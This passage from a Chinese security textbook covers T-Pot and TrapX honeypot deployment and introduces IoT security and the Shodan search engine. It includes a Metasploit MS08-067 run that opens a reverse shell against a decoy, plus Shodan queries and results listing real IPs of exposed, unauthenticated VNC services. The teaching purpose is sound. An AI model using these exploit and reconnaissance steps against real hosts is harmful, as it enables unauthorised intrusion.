minimums). 运行 T-Pot 蜜罐的最简单方法是下载 ISO 镜像或自行构建，然后将其挂载到 VMware 或 VirtualBox 的虚拟光驱中并启动虚拟机。该 ISO 是一个 64 位 Ubuntu 版本，如下所示。再次提醒，请务必建立刚才给出的最小设置。对于有限的测试，您可以使用更小的（5GB）硬盘。


按 ENTER 选择默认安装程序（T-Pot 17.10）。系统会提示您选择语言和键盘。随后安装将开始，所需时间为 20–30 分钟，具体取决于您的系统资源。在此过程中，您还需要回答一些配置问题，例如蜜罐类型（本实验中我们选择了 Standard）、tsec 用户账户的密码，以及 Web 界面的第二个用户名和密码（请勿丢失）。安装完成后，系统会提示您登录。使用您提供的 tsec 账户和第一个密码。在登录屏幕上，您将看到蜜罐的 IP 地址和 Web URL，如下所示。使用您建立的第二个用户账户和 Web 界面密码。


从另一台 Linux 或 Mac 系统，使用 Nmap 扫描该 IP。接下来，使用前面的 IP（https://IP:64297）打开 Web 界面，并选择 T-Pot 仪表板。您需要将蜜罐放置在公共互联网连接上和/或对其进行扫描，才能在仪表板中看到一些活动。但是，下面的截图展示了该工具的潜力。


注意 以下两个图片已获得 T-Pot 最新版本开发者的许可使用，但在本书出版时，其格式或功能可能已发生变化。


向下滚动以查看更多详细信息。


Web 界面包含多种工具，包括 Elasticsearch head（搜索的起点），如下所示。


另一个工具是 SpiderFoot 搜索页面，它允许您查找关于攻击者的信息。

## 新建扫描

| 扫描名称 | Google |
|---|---|
| 种子目标 | google.com |
| 按用例 | All |
| 按所需数据 | All |
| 按模块 | All |
| 详情 | 获取关于目标的任何和所有信息。所有 SpiderFoot 模块都将启用（速度较慢）但将获取和分析关于目标的每一条可能信息。 |

另外，Web 界面还包括一个名为 Portainer 的 Docker 容器 UI，它允许您控制 Docker 容器（例如 Dionaea，如下所示）。


您还可以通过 shell 与每个容器交互，如下所示。


另外，Netdata 页面显示重要的服务器信息，看似无限向下滚动。


最后，如果需要，您可以通过 Wetty 完全访问 Web 控制台，如下所示。对于非本地访问，您需要上传 SSH 密钥。

```
Not Secure | https://192.168.0.139:64297/tpotweb.html
The authenticity of host '[127.0.0.1]:64295 ([127.0.0.1]:64295)' can't be established.
ECDSA key fingerprint is SHA256:uh6PSTMybP4F+uJishnmJgQfIX2Q6f3kRLy8Jjhn4Z0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[127.0.0.1]:64295' (ECDSA) to the list of known hosts.
tsec@127.0.0.1's password:
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-92-generic x86_64)

* Documentation:  https://help.ubuntu.com
* Management:     https://landscape.canonical.com
* Support:        https://ubuntu.com/advantage

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

[tsec@agreeablespray:~]$
```

所有数据都存储在 /data 文件夹中，该文件夹可从主机访问。

```
Not Secure | https://192.168.0.139:64297/wetty/ssh/tsec
tsec@127.0.0.1's password:
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-92-generic x86_64)

* Documentation:  https://help.ubuntu.com
* Management:     https://landscape.canonical.com
* Support:        https://ubuntu.com/advantage
Last login: Sun Aug 20 19:28:37 2017 from 127.0.0.1
[tsec@agreeablespray:~]$ sudo bash
[sudo] password for tsec:
[root@agreeablespray:~]# ls /data/dionaea/bitstreams/2017-08-20/
ftpd-21-::ffff:192.168.0.117-XacM7c  mysqld-3306-::ffff:192.168.0.117-BE4jqi
[root@agreeablespray:~]#
```


注意 要在基于云的 Ubuntu 16.04 系统上运行此蜜罐，只需运行以下命令。您还需要将 TCP 端口 0–64000 开放给公众，并将 64001 及以上端口开放给您的 IP（如果您希望更有选择性地暴露端口，请参见本章末尾的 T-Pot 网站链接）。

```
git clone https://github.com/dtag-dev-sec/t-pot-autoinstall.git
cd t-pot-autoinstall/
sudo su
./install.sh
```

## 商业替代方案：TrapX

在商业解决方案方面，您有多种可供选择，包括这些：

- TrapX
- Attivo
- Illusive Networks
- Cymmetria

每个都有其优点并值得一试。但是，在本章中，我们只重点介绍一个：TrapX DeceptionGrid。TrapX 在本书上一版中被重点介绍，当时就令人印象深刻。然而，自那时以来，它已大大改进。

登录 TrapX 时，您将看到一个仪表板，显示各种形式的数据，包括入站和出站威胁、Top-10 事件、威胁统计信息，以及工作站、服务器和网络诱饵陷阱的运行状态。

| 公司 | 风险等级 | 类型 | 事件数 |
|---|---|---|---|
| ABC Motors | • | 出站, 内部 | 115 |
| Gotham Financial | • | 出站, 内部 | 109 |
| Wayne Enterprises | • | 出站, 内部 | 143 |
| Tyrell Corp | • | 出站, 内部 | 107 |

| 源 IP | 攻击次数 | 目标 IP | 攻击次数 |
|---|---|---|---|
| 10.0.0.155 | 112 | 10.0.0.17 | 96 |
| 10.0.0.223 | 32 | 66.228.39.114 | 92 |
| 10.0.0.247 | 29 | 10.0.0.18 | 64 |
| 10.0.0.241 | 26 | 10.0.0.15 | 62 |
| 10.0.0.7 | 25 | 10.0.0.16 | 47 |
| 10.0.0.249 | 24 | 45.63.6.180 | 20 |
| 10.0.0.18 | 23 | 8.8.8.8 | 16 |
| 10.0.0.17 | 19 | 10.20.30.101 | 12 |
| 10.0.0.16 | 18 | 10.20.30.100 | 11 |
| 10.0.0.15 | 17 | 10.20.30.106 | 9 |

- 工作站陷阱
- 服务器陷阱
- 网络陷阱
- 工业陷阱
- 医疗设备陷阱

| 统计 | 数值 |
|---|---|
| 陷阱事件 | 18 |
| 网络情报事件 | 462 |
| 感染 | 6 |
| 交互 | 2 |
| 侦察 | 2 |
| 连接 | 8 |
| 僵尸网络和 C&C | 36 |
| 恶意软件和木马 | 92 |
| 情报收集 | 334 |

使用如下所示的事件分析屏幕显示事件时，您可以筛选事件（例如，您可以筛选感染事件）。

| ID | 服务器 | 类型 | 攻击者主机名 | 攻击者 IP | 陷阱名称 | 协议 | 端口 | 代理 | 开始 | 持续时间 |
|---|---|---|---|---|---|---|---|---|---|---|
| 26218204 | ⏺ | Infection | 10.0.0.162 | 10.0.0.162 | GothamFinancial3_MT | SMB | 445 | | 29.06.2017 14:49:57 | 03:00 min |
| 26218190 | ⏺ | Infection | 10.0.0.162 | 10.0.0.162 | GothamFinancial3_MT | SMB | 445 | | 29.06.2017 09:59:49 | 02:59 min |
| 26218174 | ⏺ | Infection | 10.0.0.162 | 10.0.0.162 | GothamFinancial3_MT | SMB | 445 | | 28.06.2017 09:59:44 | 02:59 min |
| 26218163 | ⏺ | Infection | 10.0.0.162 | 10.0.0.162 | GothamFinancial3_MT | SMB | 445 | | 27.06.2017 09:59:40 | 03:00 min |
| 26218150 | ⏺ | Infection | 10.0.0.162 | 10.0.0.162 | GothamFinancial3_MT | SMB | 445 | | 26.06.2017 10:00:25 | 03:00 min |
| 26218135 | ⏺ | Infection | 10.0.0.162 | 10.0.0.162 | GothamFinancial3_MT | SMB | 445 | | 25.06.2017 09:59:43 | 03:00 min |
| 26218122 | ⏺ | Infection | 10.0.0.162 | 10.0.0.162 | GothamFinancial3_MT | SMB | 445 | | 24.06.2017 09:59:47 | 03:00 min |
| 26218110 | ⏺ | Infection | 10.0.0.162 | 10.0.0.162 | GothamFinancial3_MT | SMB | 445 | | 23.06.2017 09:59:41 | 03:00 min |
| 26218095 | ⏺ | Infection | 10.0.0.162 | 10.0.0.162 | GothamFinancial3_MT | SMB | 445 | | 22.06.2017 09:59:42 | 03:00 min |
| 26218083 | ⏺ | Infection | 10.0.0.162 | 10.0.0.162 | GothamFinancial3_MT | SMB | 445 | | 21.06.2017 09:59:41 | 02:59 min |
| 26218070 | ⏺ | Infection | 10.0.0.162 | 10.0.0.162 | GothamFinancial3_MT | SMB | 445 | | 20.06.2017 09:59:41 | 02:59 min |
| 26218059 | ⏺ | Infection | 10.0.0.162 | 10.0.0.162 | GothamFinancial3_MT | SMB | 445 | | 19.06.2017 09:59:40 | 03:00 min |
| 26218040 | ⏺ | Infection | 10.0.0.173 | 10.0.0.173 | GothamFinancial3_MT | SMB | 445 | | 17.05.2017 09:59:36 | 02:59 min |
| 26218036 | ⏺ | Infection | 10.0.0.166 | 10.0.0.166 | AbcMotors5_MT | SMB | 445 | | 17.05.2017 02:59:36 | 03:00 min |
| 26218025 | ⏺ | Infection | 10.0.0.173 | 10.0.0.173 | GothamFinancial3_MT | SMB | 445 | | 16.05.2017 09:59:36 | 03:00 min |
| 26218017 | ⏺ | Infection | 10.0.0.166 | 10.0.0.166 | AbcMotors5_MT | SMB | 445 | | 16.05.2017 02:59:39 | 03:00 min |
| 26218006 | ⏺ | Infection | 10.0.0.173 | 10.0.0.173 | GothamFinancial3_MT | SMB | 445 | | 15.05.2017 09:59:38 | 02:59 min |
| 26218001 | ⏺ | Infection | 10.0.0.166 | 10.0.0.166 | AbcMotors5_MT | SMB | 445 | | 15.05.2017 02:59:38 | 03:00 min |

要检查某个事件，只需双击它即可在终止链视图中查看所有记录的操作，如下所示。


## 攻击亮点

主机名: 10.0.0.162
IP 地址: 10.0.0.162
端口: 3210
登录: cyber\user (SMB1)
开始时间戳: 29/06/2017 14:49:57
结束时间戳: 29/06/2017 14:52:57

### SMB 445
名称: GothamFinancial3_MT
IP 地址: 10.0.0.16
仿真类型: Windows 工作站
操作系统: Microsoft Windows 7

- 登录: 4
- 文件: 4
- 进程: 4
- 服务: 1
- 连接: 4

### 文件

- PSEXESVC.exe 87dfa38f5776f5f20724455e8832a8
- file.exe c67e2af589b417e720c6c11e47a03f

### 攻击详情

| 时间 | 描述 |
|---|---|
| 14:49:57 | 登录: cyber\user (SMB1) |
| 14:49:57 | 连接: \\10.0.0.16\ADMIN$ |
| 14:49:57 | 连接: \\10.0.0.16\IPC$ |
| 14:49:57 | 连接: \\10.0.0.16\C$ |
| 14:49:57 | 目录: C:\* |
| 14:49:57 | 删除目录: C:\folder1 |
| 14:49:57 | AT 执行: id 2, zoom.exe |
| 14:49:57 | AT 列表: |
| 14:49:57 | 创建文件: C:\windows\PSEXESVC.exe |
| 14:49:57 | 创建服务: 服务名称: PSEXESVC, 二进制路径: %SystemRoot%\PSEXESVC.exe |
| 14:49:57 | 创建文件: C:\windows\file.exe |

### 静态分析

注意攻击者如何启动 PSEXEC 服务并创建文件 (file.exe)。您可以在沙箱报告中查看该文件的动态分析，该报告包括行为、网络活动、进程、取证物、注册表项活动和文件系统活动。


此外，如下所示，您可以查看该文件的静态和声誉分析。

| 属性 | 值 |
|---|---|
| 文件大小 | 189792 |
| 文件类型 | PE32 executable (console) Intel 80386, for MS Windows |
| 文件 MD5 | 87dfac39517f652072445e58e83248 |
| 文件 SHA1 | 0c5a4a6c11f19a6d622684d46c50fc139f5e954ff |
| 文件 ssdeep | 3072:G075Rm11WpS8qOQew7EMk0qnPILyfgylgBERDFDE0ca0nKu++xQQ950Pm58fnKWLTfYOBQI3u+sQ |
| 文件日期 | 0x533888A1 [Sun Mar 30 20:50:41 2014 UTC] |
| 文件 EP | 0x40985c: text 0/4 |
| 外出连接 | N/A |
| 文件 CRC | 声明: 0x379bab, 实际: 0x379bab |
| 文件加壳工具 | N/A |
| TLS 回调 | N/A |
| 可疑警报 | StartServiceCtrlDispatcherW<br>CreateProcessAsUserW<br>OpenProcessToken<br>StartServiceW<br>CreateServiceW |
| 版本信息 | LegalCopyright: Copyright \x9a 2001-2014 Mark Russinovich InternalName: PsExec Service Host FileVersion: 2.11 CompanyName: Sysinternals ProductName: Sysinternals P... |
| AV 参考 | N/A / N/A |

真正有趣的地方在于，当使用 TrapX 模拟 SMB 命令并允许攻击者利用诱饵系统时，TrapX 会监控和控制这些命令的影响。

```
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set RHOST 192.168.100.133
RHOST => 192.168.100.133
msf exploit(ms08_067_netapi) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(ms08_067_netapi) > set LHOST 192.168.100.12
LHOST => 192.168.100.12
msf exploit(ms08_067_netapi) > set target 4
target => 4
msf exploit(ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 192.168.100.12:4444
[*] 192.168.100.133:445 - Attempting to trigger the vulnerability...
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.100.133
[*] Command shell session 1 opened (192.168.100.12:4444 -> 192.168.100.133:54087) at 2017-08-28 23:41:37 -0500

C:>dir
Volume in drive C has no label.
Volume Serial Number is BC23-2A69

Directory of C:\\

09/24/2015  10:21 AM    <DIR>          0 AUTOEXEC.BAT
09/24/2015  10:18 AM             210 boot.ini
09/24/2015  10:21 AM    <DIR>          0 CONFIG.SYS
08/18/2017  01:43 PM    <DIR>            data
09/24/2015  09:31 AM    <DIR>   Documents and Settings
09/24/2015  10:21 AM    <DIR>          0 IO.SYS
09/24/2015  10:21 AM    <DIR>          0 MSDOS.SYS
03/25/2005  06:00 AM            47,772 NTDETECT.COM
03/25/2005  06:00 AM           295,536 ntldr
09/24/2015  09:33 AM       1,610,612,736 pagefile.sys
09/24/2015  09:31 AM    <DIR>      Program Files
09/24/2015  10:25 AM    <DIR>      System Volume Information
08/18/2017  01:43 PM    <DIR>      testfordemo
09/24/2015  09:34 AM    <DIR>      Windows
09/24/2015  10:22 AM    <DIR>      wmpub
           8 File(s)   1,610,956,254 bytes
           7 Dir(s)  18,505,936,896 bytes free

C:>
```

除了 Linux 和 Windows 系统的经典诱饵之外，TrapX 还能模拟各种设备，例如 Juniper 和 Cisco 设备；各种医疗、物联网 (IOT) 和 SCADA 设备；以及 Swift 和 ATM 等金融服务。对于本实验，我们启用了一个 Cisco 交换机，如下所示，但请注意还有其他可用服务。


运行 Cisco 诱饵时，攻击者可以通过 SSH/Telnet 与 Cisco 命令行界面 (CLI) 交互。此外，诱饵会发送 Cisco 发现协议 (CDP) 数据包，这些数据包可能会吸引攻击者，并将其引导至与真实但虚假的 Web GUI 交互，如下所示。同样，对该虚假 GUI 采取的所有操作都会被记录，安全运营中心 (SOC) 分析师会收到警报。


此外，TrapX 可以与 Cisco 身份服务引擎 (ISE) 和 ForeScout 交互，使用网络访问控制 (NAC) 将可疑连接转移到隔离的欺骗网络中进行进一步分析。有关 TrapX 将 Wannacry 转移到隔离网络的视频链接，请参见本章末尾的“进一步阅读”部分。

TrapX 允许使用欺骗 (蜜罐) 令牌。例如，可以在主机（本例中为 fileserver004）上建立一个虚拟网络驱动器，如下所示。请注意，虚拟网络驱动器 (R:) 在桌面上对用户不可见；相反，只有攻击者在使用命令行工具时才能看到它，这正是攻击者通常的操作方式。另请注意，虚拟网络驱动器上会显示虚拟文件。


攻击者的所有操作都会在 SOC（虚拟共享映射到 C:\data）中追踪。


TrapX 还具有基于 Web 的欺骗令牌，提供三个级别的欺骗：

- 浏览器历史记录 看起来对攻击者有吸引力的假 URL
- 浏览器凭据 带有假保存用户名和密码的假 URL
- 浏览器书签 指向诱饵 Web 应用程序的假浏览器书签链接

所有这些信息都是可配置的；例如，此处显示了浏览器凭据。


此浏览器数据可能会诱使攻击者访问诱饵 Web 应用程序，如下所示。


回到 SOC 中，分析师会收到警报，如下所示，因为不应该有人连接到此站点。


TrapX 最先进的功能之一是能够安全地将命令代理到完整的操作系统，提供尽可能高的模拟级别。TrapX 将此称为完整操作系统 (FOS) 诱饵。例如，攻击者可能使用钓鱼电子邮件获得立足点，然后发现有意放置的指向运行远程桌面协议 (RDP) 的文件共享的欺骗令牌信息。攻击者甚至可能运行 Mimikatz，如下所示，以为自己正在获取真实凭据。


如下所示，攻击者随后可能使用这些被盗凭据与该完整但虚假的系统建立 RDP 会话，该系统的唯一目的是被访问并向 SOC 分析师提供警报，这与我们早先对蜜罐的定义相符。


攻击者可能不知道这是一个蜜罐，因为它是一个完整的操作系统，可能认为自己对系统拥有完全访问权限。然而，他们正处在 SOC 团队的严密监视之下，如下所示。


正如你所见，商业产品相当丰富。希望你现在对自己的选择有了更清晰的了解，并能选择适合自身需求的蜜罐技术（开源或商业）。

## 总结

在本章中，我们讨论了欺骗这一主题，特别是在使用蜜罐技术保护网络时的应用。我们首先讨论了欺骗和蜜罐的一般历史。接着，我们转向现代蜜罐的讨论，包括其类型和部署注意事项。随后，我们通过一系列实验室练习，使用了最新的开源蜜罐工具。最后，我们探讨了商业解决方案 TrapX，以了解供应商在欺骗防御领域带来的示例。

## 进一步阅读

- Attivo Networks https://attivonetworks.com/
- Awesome list of honeypot resources https://github.com/paralax/awesome-honeypots
- Cymmetria https://cymmetria.com/product/
- 关于控制和终止 Docker 容器的好文章 https://medium.com/@lherrera/life-and-death-of-a-container-146dfc62f808
- 存放恶意软件样本以供分析的好地方 https://malwr.com/submission/
- 手动部署 Cowrie 和 Dionaea 蜜罐的好教程 http://executemalware.com/?p=302
- Illusive Networks https://illusivenetworks.com/
- 在 40 分钟内在 EC2 上安装 Dionaea https://tazdrumm3r.wordpress.com/2012/08/26/dionaea-honeypot-on-ec2-in-40-minutes/
- 在 Kali 2017.1 64 位上安装 Docker https://gist.github.com/nikallass/e5124756d0e2bdfc8981827f3ed40bcc
- 安装 Ubuntu 16.04 https://tutorials.ubuntu.com/tutorial/tutorial-install-ubuntu-server#0
- 在 Amazon AWS 上安装 Ubuntu 16.04 http://mobisoftinfotech.com/resources/mguide/launch-aws-ec2-server-set-ubuntu-16-04/
- 现代蜜网 https://github.com/threatstream/mhn
- T-Pot 蜜罐 17.10 https://github.com/dtag-dev-sec/tpotce/releases
- TrapX https://trapx.com
- Ubuntu 16.04 64 位 ISO http://releases.ubuntu.com/xenial/ubuntu-16.04.3-server-amd64.iso
- TrapX 在蜜罐中捕获 WannaCry 的视频 https://vimeo.com/218929440

## 参考文献

- 1. “孙子,” Wikiquote, https://en.wikiquote.org/wiki/Sun_Tzu. [访问日期: 26-Aug-2017].
- 2. “保镖行动,” Wikipedia, 2017 年 6 月 5 日.
- 3. F. Cohen, “计算机病毒 – 理论与实验,” IFIPsec 84, 1984.
- 4. F. Cohen, “关于欺骗在信息保护中作用的注释,” 《计算机与安全》, 第 17 卷, 第 6 期, 第 483–506 页, 1998.
- 5. F. Cohen, “欺骗工具包,” http://all.net/dtk/.
- 6. K. Johnson, “黑客在安全‘蜜罐’中被捕,” ZDNet, 2000 年 12 月 19 日, www.zdnet.com/article/hackers-caught-in-security-honeypot/. [访问日期: 26-Aug-2017].
- 7. “博客 | 蜜网项目,” http://honeynet.org/. [访问日期: 26-Aug-2017].
- 8. L. Pingree, “与欺骗相关的技术 – 它不仅仅是‘锦上添花’, 而是一种新的防御策略,” Lawrence Pingree, 2016 年 9 月 28 日.
- 9. D. Katz, “MongoDB-HoneyProxy: 用于 MongoDB 的蜜罐代理。运行后，这将代理并记录所有流向虚拟 MongoDB 服务器的流量,” 2017, https://github.com/Plamaz/MongoDB-HoneyProxy.
- 10. T. Nicholson, “honssh: HonSSH 旨在记录客户端与服务器之间的所有 SSH 通信,” 2017, https://github.com/tnich/honssh.
- 11. “客户端蜜罐,” Wikipedia, 2017 年 8 月 9 日.
- 12. “Canarytokens.org – 面向大众的快速、免费检测,” http://blog.thinkst.com/2015/09/canarytokensorg-quick-free-detection.html.
- 13. A. Karimi, Honeybits: 一种简单的工具，旨在通过在生产服务器和工作站上散布面包屑和蜜罐代币来增强陷阱的有效性，以诱骗攻击者，2017, https://github.com/0x4D31/honeybits.
- 14. “真实感 | 在 Dictionary.com 上定义真实感,” Dictionary.com, www.dictionary.com/browse/verisimilitude. [访问日期: 19-Aug-2017].
- 15. “Dionaea 蜜罐主页,” GitHub, 2017 年 8 月 9 日, https://github.com/DinoTools/dionaea. [访问日期: 19-Aug-2017]
- 16. “Conpot: ICS/SCADA 蜜罐,” GitHub, 2017 年 8 月 18 日, https://github.com/mushorg/conpot. [访问日期: 19-Aug-2017].
- 17. M. Oosterhof, “docker-cowrie: Docker Cowrie 蜜罐镜像,” GitHub, 2017 年 7 月 19 日, https://github.com/micheloosterhof/docker-cowrie. [访问日期: 19-Aug-2017].
- 18. “DTAG 社区蜜罐项目,” GitHub, http://dtag-dev-sec.github.io/. [访问日期: 19-Aug-2017].

## 第 V 部分

## 物联网

- 第 22 章 待被攻破的物联网
- 第 23 章 嵌入式设备解剖
- 第 24 章 嵌入式设备利用
- 第 25 章 抵御 IoT 恶意软件

## 第 22 章

## 待被攻破的物联网

本章介绍了互联网连接设备的主题，称为物联网 (IoT)。“物联网”一词最早由 Kevin Ashton 在 1999 年 MIT 的一次演示中提出。1 2008 年，连接设备的数量超过了地球上的人类数量，达到 80 亿，2 因此这些设备的安全性变得越来越重要。IoT 设备的连接速度惊人。Cisco 预计到 2020 年，IoT 设备数量将超过 500 亿。3 想想看：到 2020 年，地球上的每个人将拥有超过 8 个连接设备。连接设备正在控制我们生活中的越来越多方面，甚至代表我们行动，因此，如果这些设备配置错误、设计不佳或仅仅是使用默认凭据连接到互联网，了解它们对毫无戒备的用户所带来的安全风险至关重要。

在本章中，我们将介绍以下主题：

- 物联网 (IoT)
- Shodan IoT 搜索引擎
- IoT 蠕虫：只是时间问题

### 物联网 (IoT)

如果我们不小心，物联网很可能会变成待被攻破的物联网。4 事实上，如本章所讨论，我们已经太迟了，这一说法正在成为现实。真正可怕的是，用户经常用便利性换取安全性，目前对安全性的重视程度不如我们安全专业人员所期望的那样。5

### 连接设备类型

连接设备有多种类型：一些体积较大，例如工厂中的机器人设备，另一些则非常小，例如植入式医疗设备。较小的设备存在影响安全性的局限性，例如内存有限、处理能力和电源需求。电源包括电池、太阳能、射频 (RF) 和网络。6 特别是在远程小型设备中，电源匮乏直接威胁着加密等安全控制措施，因为从功耗角度来看，加密可能被认为成本过高，因此可能被完全排除在设计之外。

连接设备的列表太长，无法在此列出，但为了帮助你入门，以下是一些连接设备类型示例：

- 连接的家庭：家电和环境监测、照明、气候/环境控制、安全、监控和电子围栏
- 连接的汽车：车辆和驾驶员跟踪、信息娱乐、车载信息系统、导航和自动驾驶
- 连接的城市：停车管理、交通控制、街道照明、智能计量、天气预报、噪音监测、空气质量监测、地震监测和结构健康监测
- 连接的健康：远程患者监测、远程医疗、健身追踪、健康追踪和医疗资产追踪
- 连接的零售：智能广告、销售点系统、供应链跟踪、自动结账和智能货架
- 农业和畜牧：牲畜管理、兽医健康追踪、食品供应链追踪和冷链，以及轮作和土壤传感器
- 能源行业：电力生产、存储、输送、管理和支付

### 无线协议

大多数连接设备都有某种形式的无线通信。无线协议包括以下几种：

蜂窝：蜂窝网络，包括 GSM、GPRS、3G 和 4G，用于远程通信。⁸ 当节点之间存在很大距离时，这种通信形式很有用，例如连接的建筑物、汽车和智能手机。在撰写本文时，这种通信形式在替代方案中仍然是最安全的，并且难以直接攻击，但可能会被干扰。

Wi-Fi：享有盛誉的 IEEE 802.11 协议已存在数十年，并且众所周知且被广泛理解。当然，Wi-Fi 也存在许多同样众所周知的安全问题。这种通信形式已成为连接设备中距离通信的事实标准。⁹

Zigbee：IEEE 802.15.4 协议是一种用于短到中距离通信的流行标准，通常可达 10 米，在某些条件下可达 100 米。该协议在低功耗要求的应用中非常有用。该协议允许网状网络，使中间节点能够将消息中继到远处节点。¹⁰ Zigbee 在 2.4 GHz 频段运行，与 Wi-Fi 和 Bluetooth 竞争。

Z-Wave：Z-Wave 协议也是一种用于短到中距离的流行标准，但由于使用较低频率（美国为 908.42 MHz），提供了更长的范围。由于使用单独的频率范围，它不与 Wi-Fi 和 Bluetooth 等其他常见无线电竞争，并且经历的干扰较少。


蓝牙（LE）无处不在的蓝牙协议最近经过了一次整容，重生为蓝牙低能耗（LE），成为一种可行的替代方案。11 虽然它与蓝牙向后兼容，但由于其节电能力，该协议被认为是“智能”的。12 与 Zigbee 和 Z-Wave 一样，蓝牙和蓝牙 LE 无法直接与 Internet 通信；它们必须通过网关设备（例如智能手机或智能桥接/控制器）中继。

6LoWPAN 低功耗无线个域网上的 IPv6（IPv6 over low-power Wireless Personal Area Networks，6LoWPAN）正在成为通过 802.15.4（Zigbee）网络传递 IPv6 数据包的一种有价值的方法。由于它可以在 Zigbee 和其他形式的物理网络之上运行，它与 Zigbee 竞争，但也有人认为它完善了 Zigbee，因为它允许与其他 IP 连接设备进行连接。13

## 通信协议

物联网有多种通信协议——太多无法一一列举——但以下是几种常用的协议14：

- 消息队列遥测传输（MQTT）
- 可扩展消息与存在协议（XMPP）
- 实时系统数据分发服务（DDS）
- 高级消息队列协议（AMQP）

## 安全问题

传统的机密性、完整性和可用性观点适用于安全设备，但通常方式不同。说到传统网络设备，通常首先重视机密性，然后是完整性，最后是可用性。然而，说到连接设备，顺序通常颠倒，首先重视可用性，然后是完整性，最后是机密性。当我们考虑一个通过蓝牙连接到用户手机并进而连接到 Internet 的嵌入式医疗设备时，这个范例很容易理解。首要关注点是可用性，然后是完整性，最后是机密性。尽管我们讨论的是敏感的医疗信息，但如果设备无法访问或不可信，就不必担心机密性问题。

然而，还有一些额外的安全问题：

- 漏洞可能难以修补，甚至无法修补。
- 小型外形因素资源有限且受电源约束，通常阻止加密等安全控制。
- 缺乏用户界面使设备“眼不见心不念”。它通常在线数年，所有者几乎不会去关注。
- 例如 MQTT 等协议存在局限性，包括无加密、通常无身份验证以及繁琐的安全配置，如本章后面所述。

## Shodan 物联网搜索引擎

Shodan 搜索引擎专注于联网设备15，并逐渐被称为物联网（IoT）。重要的是要意识到，这可不是你父亲的 Google。Shodan 搜索的是横幅，而不是网页。特别是，Shodan 扫描 Internet 寻找它识别的横幅，然后对这些数据进行索引。你可以提交自己的横幅指纹和 IP 进行扫描，但这需要付费许可。

## Web 界面

如果你想虚掉一个下午，甚至整个周末，只需访问 https://images.shodan.io（需要每年 49 美元的会员资格）。也许你会发现一个大号幼儿正在打盹，如下所示。（这是个玩笑；这显然是个疲惫的成年人。）

```
554 RTSP/1.0 200 OK
tcp CSeq: 1
rtsp-tcp Server: Hipcam RealServer/V1.0
Public: OPTIONS,DESCRIBE,SETUP,TEARDOWN,PLAY,SET_PARAMETER,GET_PARAMETER
```


更严肃地说，稍微多搜索一下，使用搜索字符串“身份验证已禁用”并筛选 VNC，你将获得更有趣的结果（注意“电机停止”按钮）。

### RFB 003.008 身份验证已禁用


如果你对工业控制系统（ICS）感兴趣并正在寻找不常见的服务，可以使用搜索字符串“category:ics -http -html -ssh -ident country:us”，这将生成以下视图。


从这个视图，我们可以看出除了 HTTP、HTML、SSH 和 IDENT（这些是常见服务）之外，还有超过 200,000 个 ICS 服务在运行。此外，我们还可以了解托管这些 ICS 服务的最常见城市、主要服务和顶级组织。当然，我们需要进行进一步筛选并排除蜜罐——但这将在后面讨论。

如果我们想以报告格式展示这些数据，可以生成一份免费报告，如下所示。


## Shodan 命令行界面

对于偏好命令行的用户，Shodan 绝不会让你失望。它提供了一个功能齐全的强大命令行工具。


> NOTE 本章的实验是在 Kali Linux 2017（32 位）上执行的，但也应适用于其他版本的 Linux。此外，需要从 Shodan 获取 API 密钥，你可以通过在那里注册免费账户获得。

## 实验 22-1：使用 Shodan 命令行

在本实验中，我们将探索 Shodan 命令行。使用 easy_install 安装工具集，如下所示：

```
root@kali:~# easy_install shodan
Searching for shodan
Best match: shodan 1.7.5
Adding shodan 1.7.5 to easy-install.pth file

Using /usr/local/lib/python2.7/dist-packages
Processing dependencies for shodan
Finished processing dependencies for shodan
```

```
Then, initialize the API key:
root@kali:~# shodan init 9G19LLaQUJCWr1e0FNDGUY-MASKED
Successfully initialized
```

```
Next, test for credits available in your account:
root@kali:~# shodan info
Query credits available: 100
Scan credits available: 100
```

```
Finally, run a scan to find VNC services (RFB), showing IP, port, org, and hostnames:
root@kali:~# shodan search --fields ip_str,port,org,hostnames RFB > results.txt
root@kali:~# wc -l results.txt
101 results.txt
root@kali:~# head results.txt
117.190.84.102 5901 China Mobile Guangdong
76.97.176.189 5900 Comcast Cable c-76-97-176-189.hsd1.ga.comcast.net
91.226.11.14 5900 LLC tc Tel Center node01.tcorp.ru
46.229.234.40 5901 VNET, a.s.
211.217.164.138 5900 Korea Telecom
185.31.163.151 5900 JSC Internet-Cosmos ipmi.planetahost.ru
147.47.38.124 5900 Seoul National University
61.92.62.18 5901 Hong Kong Broadband Network 061092062018.ctinets.com
180.111.85.166 5900 China Telecom jiangsu
91.65.157.77 8080 Vodafone Kabel Deutschland ip5b419d4d.dynamic.kabel-deutschland.de
```

```
One feature of the command-line tool is the ability to check the honeyscore, a score that
tests whether a site is a honeypot using heuristics developed by Shodan:
root@kali:~# shodan honeyscore 54.187.148.155
Not a honeypot
Score: 0.5
root@kali:~# shodan honeyscore 52.24.188.77
Honeypot detected
Score: 1.0
```

## Shodan API

有些人可能更偏好使用 Python 接口来访问 Shodan 数据，当然，你也可以使用。Shodan Python 库随 Shodan 命令行工具一起提供，但该库也可以使用 pip 单独安装。

## 实验 22-2：测试 Shodan API

在本实验中，我们将测试 Shodan API。你需要一个 API 密钥；对于此测试用例，免费密钥即可，因为我们不使用任何过滤器。我们将构建一个 Python 脚本，用于搜索横幅中包含单词 alarm 的 MQTT 服务。本章的此代码和所有代码都可以在书籍的下载站点和 GitHub 仓库中找到。

```
root@kali:~# pip install shodan
Collecting shodan
Downloading shodan-1.7.5.tar.gz (41kB)
100% |████████████████████████████████| 51kB 1.7MB/s
<truncated>
```

```
root@kali:~# cat mqtt-search.py
import shodan
import time
import os

def shodan_search():

SHODAN_API_KEY = "9G19LLaQUJCWr1E0FNDGUY-MASKED"
SEARCH = "mqtt alarm"
api = shodan.Shodan(SHODAN_API_KEY)

try:
    results = api.search(SEARCH)
    file1 = open("mqtt-results.txt", "w")
    for result in results['matches']:
        searching = result['ip_str']
        file1.write(searching + '\n')
